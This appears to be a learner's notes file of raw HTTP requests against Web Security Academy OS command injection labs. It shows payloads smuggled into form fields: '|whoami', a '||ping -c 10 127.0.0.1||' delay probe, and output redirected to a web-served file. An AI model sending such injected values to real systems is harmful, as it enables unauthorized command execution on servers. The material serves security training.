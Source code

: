 # OS Command İnjection

POST /product/stock HTTP/2
Host: 0aae003104c870bc8028f88c0004007c.web-security-academy.net
Cookie: session=fSpUfeKTqjgNuR5I8VTgnH5RMQsrSoy7
Content-Length: 27
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: tr-TR,tr;q=0.9
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: */*
Origin: https://0aae003104c870bc8028f88c0004007c.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aae003104c870bc8028f88c0004007c.web-security-academy.net/product?productId=4
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
 
productId=4&storeId=1|whoami


-- 


POST /feedback/submit HTTP/2
Host: 0a0a009b03c7e17082b07f5100e80039.web-security-academy.net
Cookie: session=BWm8DHMMdQj94thbQv4U3fodYL2mgw7v
Content-Length: 88
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: tr-TR,tr;q=0.9
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a0a009b03c7e17082b07f5100e80039.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a0a009b03c7e17082b07f5100e80039.web-security-academy.net/feedback
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
 
csrf=79Rg6FG7744BVzNqa4U0TXNMubwKHDWE&name=aa&email=x||ping+-c+10+127.0.0.1||&
subject=aa&message=aa


--


POST /feedback/submit HTTP/2
Host: 0ad800970442f41882cc47d900de001c.web-security-academy.net
Cookie: session=OEgjRiylY6EZsYy1vkbCax0zTbfcPoes
Content-Length: 88
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: tr-TR,tr;q=0.9
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: */*
Origin: https://0ad800970442f41882cc47d900de001c.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ad800970442f41882cc47d900de001c.web-security-academy.net/feedback
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
 
csrf=hKhdqGFo5fbvVUk0DEP4VDGnUIHn9dLg&name=aa&email=||whoami>/var/www/images/output.txt||&subject=aa&message=aa


--



